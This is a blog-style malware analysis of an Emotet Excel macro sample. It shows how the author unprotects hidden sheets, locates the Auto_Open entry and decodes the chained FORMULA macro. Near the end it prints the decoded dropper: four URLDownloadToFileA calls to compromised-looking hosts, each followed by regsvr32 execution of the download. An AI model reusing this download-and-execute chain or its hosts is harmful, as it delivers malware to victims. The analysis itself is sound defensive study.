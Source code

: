 ```yaml
---
layout: post
title: EMOTET XLS MACRO
---
```


Sample: SHA256 2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea
Sample Link: https://bazaar.abuse.ch/download/2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea/ 

After looking at John Hammonds video(https://www.youtube.com/watch?v=m6LXnM9mjrU) I decided to take a quick look and try to reconstruct the macro.

First thing I followed the same steps as the video to unhide the sheets and unprotect them. 
We need to unprotect them so that we can change the font color and modify the cells

I followed this article to brute force the password:
https://www.excelsupersite.com/how-to-unprotect-an-excel-spreadsheet-if-you-have-lost-your-password/

The general idea is to run a script on the sheet to unprotect them so that we can modify and change color of hidden text.

![image](https://user-images.githubusercontent.com/107503502/200201163-f428460f-c093-4249-b509-92511b596380.png)

The sheet is now unprotected.
I repeated this for all the sheets.

So we now have 6 sheets with some strings that are not obfuscated and actually start to make out what is goind to happen

![image](https://user-images.githubusercontent.com/107503502/200201177-95cbb78a-12c9-48a1-99e5-4a6db6a8010a.png)

Next step is to identify the entry point. Sheet 6 was unprotected so I'll start from there and check the Auto_Open macro.


![image](https://user-images.githubusercontent.com/107503502/200201206-7a2ce8b6-667c-4d67-860e-89b12bbbcfaf.png)

As you can see from the screenshot, the macro starts from the blank cell in G ( which by the way was hidden at the start, the column was shortened, so at a first glance there was a missing column)
The macro will go top-down jumping all the whitespace.

The first macro we get as seen above is:

=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!F26&Sheet3!R13&Sheet5!E9&Sheet3!M26,G16)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!E9&Sheet1!F24&Sheet1!L31,G18)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!G28&Sheet3!R13&Sheet5!G15&Sheet3!M26,G20)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!G15&Sheet1!F24&Sheet1!L31,G22)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!I27&Sheet3!R13&Sheet5!J3&Sheet3!M26,G24)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!J3&Sheet1!F24&Sheet1!L31,G26)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!J29&Sheet3!R13&Sheet5!L12&Sheet3!M26,G28)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!L12&Sheet1!F24&Sheet1!L31,G30)=FORMULA(Sheet1!L24&Sheet1!G44&Sheet1!H46&Sheet1!J44,G36)

The macro contains =FORMULA() this will retrieve a given formula present in the cells and save it in the cell that is the last argument.

For example the first row will retrieve data from the Sheet1  from L24 L26 L27 L28 L28  Sheet2 F6 N19 F10 R3 SHEET5 Q12 SHEET2 F26 SHEET3 R13 SHEET5 E9 SHEET3 M26  and save it all in G16. We can see that clicking on the cell excel highlights the destination cells.
![image](https://user-images.githubusercontent.com/107503502/200201235-18eb49b0-81d5-4cf7-8c81-ba299686cf9f.png)


So, I inserted =HALT() function in the row below, so that the magic goes on and we see all the functions and calls that will be called.

![image](https://user-images.githubusercontent.com/107503502/200201254-d8a2abe3-493c-4fa7-a750-9ae91e5c666a.png)

=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://audioselec.com/about/dDw5ggtyMojggTqhc/","..\oxnv1.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv1.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://geringer-muehle.de/wp-admin/G/","..\oxnv2.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv2.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://intolove.co.uk/wp-admin/FbGhiWtrEzrQ/","..\oxnv3.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv3.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://isc.net.ua/themes/3rU/","..\oxnv4.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv4.ooccxx")
=RETURN()

And thats it. this is how i gathered easily the exact commands that will be launched using excel macros.
Nothing was obfuscated so, I guess nothing to interesting happens. But I just had fun doing it and learning a bit about macros in excel.




